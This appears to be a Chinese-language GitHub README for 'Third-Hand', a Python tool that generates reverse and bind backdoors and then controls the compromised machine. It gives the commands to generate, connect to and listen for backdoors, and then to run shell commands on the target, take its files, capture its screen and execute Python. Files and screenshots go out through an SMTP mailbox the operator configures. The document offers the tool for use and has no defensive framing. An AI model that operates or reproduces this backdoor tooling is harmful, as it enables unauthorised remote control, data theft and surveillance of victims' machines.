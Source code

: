 # Third-Hand

## 如何使用Third-Hand  

用Python 3.10或以上版本的解释器运行Third-Hand.py  

运行结果
```
     _____ _     _         _   _   _                 _ 
    |_   _| |__ (_)_ __ __| | | | | | __ _ _ __   __| |
      | | | '_ \| | '__/ _` | | |_| |/ _` | '_ \ / _` |
      | | | | | | | | | (_| | |  _  | (_| | | | | (_| |
      |_| |_| |_|_|_|  \__,_| |_| |_|\__,_|_| |_|\__,_|
                                                    
                                            V 0.1
    
Third-Hand $>
```  

### 使用generate命令生成后门  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向后门
   当选项的值为1时 生成的为正向后门
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向后门  

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向后门连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```
## Third-Hand的GUI版本  

由大佬heiheilq提供 尽情期待  

## Third-Hand的语言支持  

由大佬onion108提供 尽情期待


   
